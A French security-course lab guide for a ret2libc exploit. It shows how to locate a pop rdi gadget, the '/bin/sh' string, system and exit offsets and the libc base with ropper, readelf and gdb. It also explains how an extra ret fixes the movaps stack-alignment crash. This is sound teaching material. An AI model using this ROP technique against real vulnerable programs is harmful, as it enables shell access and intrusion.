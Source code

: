 # Objectifs: trouver les adresses des varibles:
libc_base_address,
ret,
pop_rdi,
binsh_addr,
system_addr,
exit_addr,

## Installer ropper : 

Ropper est principalement écrit en Python. 

Il s'agit d'un outil open-source pour l'analyse de fichiers binaires et la recherche de gadgets ROP (Return-Oriented Programming), développé par Alexander Margaritov

sudo apt update ; sudo apt install ropper

lancer ropper: ropper (Entrée)

## pop_rdi (000000000002a3e5):

![poprdi gadget](https://raw.githubusercontent.com/adell2024/intro_securite_info/master/02-ret2libc/images/poprdi.png)


## binsh_addr (1d8678):

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

 1d8678 /bin/sh

## system_addr (0000000000050d70):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

## exit_addr (00000000000455f0):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep exit

2760: 00000000000455f0    32 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.2.5

les décalages (offsets) que nous avons découverts ci-dessus seront ajoutés à l'adresse où la libc sera chargée. Puisque l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.

## libc_base_address (0x00007ffff7c00000):

Comme vous l'avez compris, les décalages/offsets  que nous avons découverts ci-dessus seront ajoutés à l'adresse à laquelle la libc sera chargée. Étant donné que l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.


gdb ./ret2libc -q

gdb-peda$ start

gdb-peda$ vmmap

Start              End                Perm	Name

0x00400000         0x00401000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00401000         0x00402000         r-xp	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00402000         0x00403000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00403000         0x00404000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00404000         0x00405000         rw-p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00007ffff7c00000 0x00007ffff7c28000 r--p	/usr/lib/x86_64-linux-gnu/libc.so.6 


## exploit1.py

>> Modifiez le script pour utiliser les valeurs correspondant à votre environnement pour les variables mentionnées précédemment.

>> Exécutez votre exploit et observez son échec dû à une violation de segmentation (signal SIGSEGV).

>> Initialisez une session GDB, importez le payload payload1 et procédez à une exécution pas à pas. Confirmez que toutes les adresses sont correctement configurées, mais notez que l'exécution complète aboutit à une violation de segmentation (segfault). Déterminez la fonction responsable de cette erreur.


## Alignement

Si nous déboguons le programme vulnérable en utilisant l'exploit mentionné ci-dessus et que nous plaçons un point d'arrêt à l'instruction de retour de la fonction, nous obtenons ce qui suit :

1 → RBP a été écrasé,
2 → l’instruction suivante (ret) va extraire l’adresse au sommet de la pile et la placer dans RIP,
3 → le gadget POP RDI ; RET sera exécuté, plaçant la chaîne "/bin/sh" dans le registre RDI.

Bien que tout fonctionne comme prévu, en laissant le programme continuer pas à pas , on arrive à l’instruction suivante :

movaps XMMWORD PTR .......

La convention d’appel 64 bits exige que la pile soit alignée sur 16 octets avant chaque instruction call, mais cette contrainte est facilement violée lors de l’exécution d’une chaîne ROP, ce qui entraîne un mauvais alignement de la pile pour tous les appels suivants effectués depuis cette fonction.

L’instruction movaps déclenche une erreur de protection générale (General Protection Fault) lorsqu’elle opère sur des données non alignées. Pour éviter cela, essayez d’ajouter un ret supplémentaire dans votre chaîne ROP avant de retourner dans une fonction, ou bien retournez plus loin dans la fonction afin de passer une instruction push.

On peut trouver une adresse contenant une instruction RET supplémentaire dans le fichier libc, en suivant exactement le même processus que pour trouver le gadget POP RDI ; RET (en utilisant ropper ou un outil similaire).

Le script final d’exploitation sera dans les exploits.py
